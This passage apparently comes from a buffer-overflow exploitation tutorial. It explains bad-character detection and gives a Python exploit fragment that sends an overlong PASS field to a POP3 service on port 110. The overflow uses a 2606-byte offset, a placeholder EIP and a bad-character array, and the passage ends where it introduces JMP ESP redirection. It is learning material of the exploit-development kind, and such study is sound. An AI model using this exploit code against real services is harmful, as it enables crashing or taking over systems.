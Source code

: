 ## Detection of Bad Characters

There may be certain characters that are considered bad and shouldn't be used in our buffer,
return address, or shellcode such as NULL byte (\x00), CR return character (\x0d) and LF line feed (\x0a).

To test which characters are bad we will send the following badchars array with our exploit:

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = "A" * 2606
payload += "B" * 4
#payload += "C" * (3500 - 2606 - 4)
payload += badchars

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
```

In the debugger, look at memory location at ESP we could see that \x00, \x0a and \x0d are trancated our buffer and not appear correctly in our memory location.

*NOTE:* This process should repeat as long as no bad characters are return.


## Redirect Execution Flow

In this last part, we need to try to get the EIP to point to ESP by using JMP ESP technique.
